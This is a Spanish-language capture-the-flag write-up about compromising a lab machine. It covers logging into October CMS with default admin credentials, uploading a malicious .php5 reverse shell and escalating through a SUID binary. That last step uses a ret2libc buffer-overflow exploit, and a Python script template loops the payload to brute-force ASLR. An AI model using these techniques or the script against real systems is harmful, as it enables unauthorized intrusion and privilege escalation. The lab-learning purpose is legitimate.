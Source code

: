 -----------
- Tags: #buffer-overflow #cms #octuber #nx-enable #aslr-enable
-----------
## Tecnicas Utilizadas
- Abusing October CMS (Upload File Vulnerability)  
- Buffer Overflow - Bypassing ASLR + Ret2libc (x32 bits)  
-----------
## Procedimiento

![[Pasted image 20230607090345.png]]
Enumeramos la pagina y nos percatamos que estamos ante un CMS con nombre october

   ![[Pasted image 20230607090732.png]]
Revisando las vulnerabilidades disponibles para este CMS encontramos una que es para la subida de archivos multitudinaria maliciosos

![[Pasted image 20230607090938.png]]

El único inconveniente es que aun no sabemos como ni donde subir ese archivo multimedia. En el texto de la vulnerabilidad nos hablan de una ruta `http://octubercms/backend`. Esta es la ruta para gestionar todo el contenido que se muestra en la web, si entramos, vemos que nos piden credenciales. Una búsqueda por google nos indica que las credenciales por defecto son **admin:admin**.

![[Pasted image 20230607091204.png]]

Y vemos, que las credenciales están por defecto. Una vez dentro, nos dirigimos a la parte multimedia e intentamos cargar un php malicioso pero con la extensión .php5. El archivo se sube con éxito y no hace falta mas que ir al archivo para interpretar nuestra reverse shell.

Una vez en la maquina, con el  comando `find / -perm -4000 2>/dev/null` nos percatamos de un archivo con nombre *ovrflow*
que como su nombre lo indica, contempla un **Buffer OverFlow**.

#### buffer overflow

Antes que nada, hay ciertas cuestiones que tenemos que tener en cuenta; ¿La maquina es de *32 bits*?,  ¿La maquina cuenta con el *ASRL* activado?, ¿Que protecciones tiene el binario?. Una vez sabiendo esto, podemos proceder a lo siguiente.

Lo primero que tenemos que ver es cuanto *data* se necesita para alcanzar el $EIP, esto lo podemos lograr con un comando que nos brinda gdb(en nuestro caso gef):

Esto nos crea un patrón con mucha información para desbordar el buffer - > `pattern create`
Esto nos indica cuanta información se necesita antes de sobrescribir el $EIP -> `pattern offset $EIP`

Una vez sabiendo esto, podemos proceder con el **Ret2LibC**.
¿Que es lo que queremos lograr? Pues necesitamos que *$EIP* apunte a *System*, tambien a  *Exit* y por ultimo a la de */bin/sh*

**$EIP** -> *SYSTEM* + *EXIT* + */bin/sh*

Podemos sacar las direcciones de estas funciones con el propio *gef* haciendo un `p System | p Exit | search &system, /bin/sh`. El problema aquí es que el ASRL esta activado. así que lo que tenemos que hacer es coger una dirección base de libc y con esta computar unos offsets para llegar a las direciones reales de las funciones.
Empecemos con el script
```python

# Para evitar voltear la cadena, automatiza el Little Indian
from struct import pack
# Para poder ejecutar el comando con el metodo call
from subprocess import call

# La data a introduciar antes de sobreescribir el EIP
offset = 112
junk = b"A" * offset

# ret2libc -> system_addr -> exit_addr -> bin_sh_addr

# La podemos sacar haciendo ldd al binario
base_libc_addr = 0x0000000

#offsets
	#readelf -s /path/libc | grep -E " system| exit"
system_addr_off = 0x000000
exit_addr_off = 0x000000
	#strings -a -t x /path/libc | grep "/bin/sh"
bin_sh_addr_off = 0x000000

# La sumatoria para dar con la direccion "real" de las funciones
system_addr = pack("<L", base_libc_addr + system_addr_off)
exit_addr = pack("<L", base_libc_addr + exit_addr_off)
bin_sh_addr = pack("<L", base_libc_addr + bin_sh_addr_off)

payload = junk + system_addr + exit_addr + bin_sh_addr

while True:
	bof = call(["/binary/path", payload])

```








